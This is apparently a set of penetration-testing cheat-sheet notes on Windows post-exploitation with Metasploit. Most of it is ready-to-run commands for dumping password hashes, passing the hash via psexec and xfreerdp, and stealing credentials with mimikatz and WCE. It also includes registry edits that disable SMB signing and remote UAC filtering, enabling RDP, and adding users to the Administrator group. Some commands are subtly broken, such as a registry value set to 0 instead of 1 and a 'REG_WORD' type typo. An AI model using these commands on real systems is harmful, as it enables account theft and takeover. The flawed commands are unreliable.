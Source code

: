*Password hash*

- `run hashdump` or `smartdump`
    
- migrate to different process.
    
- Pass the hash:  
    NTLM kind of scenario use `psexec`.
    
    - `use exploit/windows/smb/psexec`  
        `SMBpass` \- password hash  
        `SMBUser` \- username  
        `RHost` \- target host.
        
    - If this doesn't work then we may need some registry changes. These are:  
        `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`  
        Add a new DWORD (32-bit) named LocalAccountTokenFilterPolicy and set its value to 1  
        `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters`  
        Add a new DWORD (32-bit) named RequireSecuritySignature and set its value to 0.  
        In powershell:  
        `Set-ItemProperty -Path HKLM: \SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System - Name LocalAccountTokenFilterPolicy -Value 1 -Type Dword`  
        `Set-ItemProperty -Path HKLM: \System\CurrentControlSet\Services\LanManServer\Parameters - Name RequireSecuritySignature -Value 0 -Type Dword`  
        In CMD:  
        `reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0 /f`  
        `reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\ServicesLAnMANServer\Parameters" /v RequireSecuritySignature /t REG_WORD /d 0 /f`  
        [More about pasing hash in current microsoft os](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/).
        
    - Apart from traditional way we can use xfreerdp.  
        `xfreerdp /u:admin /d:[domain] /pth:[hash] /v:[target_ip]`
        
- Crack password hash.
    
    - Mimikatz ([https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz))  
        Migrate to 64 bit process if its currently on 32 bit process.  
        `ps -A x86_64 -s` to list all 64 bit process.  
        `load mimikatz`  
        To retrieve credentails `wdigest` \> for more details click [wdigest](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778868(v=ws.10)?redirectedfrom=MSDN).  
        More about using [mimikatz tools](https://github.com/gentilkiwi/mimikatz/wiki).
- Another tool is WCE(Windows Credentail Editor) which is a binary which need to be uploaded to the target machine.[WCE](https://web.archive.org/web/20200414231958/http:/www.ampliasecurity.com/research/windows-credentials-editor/)  
    To run: `execute -i -f wce.exe -a -h`
    

  

*Enable RDP Service*

- `net start` to check enabled services.  
    or we can use  
    `wmic service where 'Caption like "%Remote%" and started=true' get Caption`  
    More about WMIC click [here](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/bb742610(v=technet.10)?redirectedfrom=MSDN).  
    We can also use meterpreter scripts like `run service_manager -l` and `run post/windows/gather/enum_services`  
    To enable RDP `run getgui -e` there lot of other options to and chech with `-h`. `-p` and `-u` can be used for adding new user and password.
- Allow logon through Remote Desktop Services.  
    `net localgroup "Remote Desktop Users" els_user /add`  
    `rdesktop [ipaddress] -u [username] -p [pwd]`  
    Like wise we can add to different group by listing with `net localgroup`  
    `net localgroup "Administrator" stduser /add` will add stuser with same privilege as Administrator.
- For Telneting use local group `TelnetClients  
      